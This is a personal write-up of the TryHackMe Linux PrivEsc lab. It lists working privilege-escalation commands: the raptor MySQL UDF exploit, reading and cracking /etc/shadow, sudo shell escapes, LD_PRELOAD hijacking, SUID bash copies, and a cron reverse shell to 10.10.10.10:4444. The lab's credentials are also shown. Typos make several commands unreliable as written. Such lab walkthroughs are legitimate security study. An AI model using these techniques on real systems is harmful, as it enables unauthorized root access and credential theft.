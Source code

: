 ```yaml
---
description: >-
  Today is my Day 1 and I am going to solve machine named Linux PrivEsc on
  TryHackMe lets goo!!!!
---
```


# Day 1 — Linux PrivEsc

{% embed url="https://miro.medium.com/v2/resize:fit:640/format:webp/0*k-2t2eWJ08uuoBjZ.gif" %}

{% hint style="info" %}
**misconfigured** Debian VM with multiple ways to get root! SSH is available. <mark style="color:red;">**Credentials: user:password321**</mark>
{% endhint %}

### Service Exploits

**using nmap** \


<figure><img src="../../../../../.gitbook/assets/image.png" alt=""><figcaption><p>open ports</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
cd /home/user/tools/mysql-udf
gcc -g -c  raptor_udf2.c  -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
{% endcode %}

**I found misconfiger in sql login with out password**

{% hint style="info" %}
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:
{% endhint %}

A user-defined function (UDF) is a [function](https://en.wikipedia.org/wiki/Function\_\(programming\)) provided by the user of a program or environment, in a context where the usual assumption is that functions are built into the program or environment. UDFs are usually written for the requirement of its creator.

```bash
mysql -u root
```

<figure><img src="../../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

#### What is BLOB in MySQL?

BLOB, which stands for a **Binary Large Object**, is a MySQL data type that can store images, PDF files, multimedia, and other types of binary data.

<figure><img src="../../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```

<figure><img src="../../../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>SERVICE EXPLOIT</p></figcaption></figure>

### Weak File Permissions - Readable /etc/shadow

**Read only => r**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
#hash root in file using nano
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**What hashing algorithm was used to produce the root user's password hash?**

```
cat hash | hashid
```

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption><p><strong>SHA-512  Crypt</strong></p></figcaption></figure>

### Weak File Permissions - Writable /etc/shadow

**Write only**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
mkpasswd -m sha-512 newpasswordhere #=> read only
or 
openssl passwd newpasswordhere => #wite only
su root

```
{% endcode %}

Generate a new password hash with a password of your choice:

<mark style="color:green;">**`mkpasswd -m sha-512 newpasswordhere`**</mark>\


<mark style="color:green;">**`openssl passwd newpasswordhere`**</mark>

### Sudo - Shell Escape Sequences

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)) and search for some of the program names. If the program is listed with “sudo” as a function, you can use it to elevate privileges, usually via an escape sequence.

```bash
#vim
sudo vim -c ':!/bin/bash'

#nano 
sudo nano -s /bin/bash
/bin/bash
^T
#apache2
sudo apache2 -f /etc/shadow #=> crack the hash and gain the root
```

## Task 7 — Sudo — Environment Variables <a href="#a6ec" id="a6ec"></a>

Using LD\_PRELOAD

```basic
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
 sudo LD_PRELOAD=/tmp/preload.so apache2
```

`ldd /usr/sbin/apache2`

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

### Cron Jobs - File Permissions

```bash
cat /etc/cronta

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

using nc  in kali

```bash
nc -nvlp 4444
```

### Cron Jobs - PATH Environment Variable

**Note that the PATH variable starts with /home/user which is our user's home directory.**

**Create a file called overwrite.sh in your home directory with the following contents:**

```bash
cat /etc/crontab

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

<mark style="color:green;">**`chmod +x /home/user/overwrite.sh`**</mark>

```basic
/tmp/rootbash -p
```
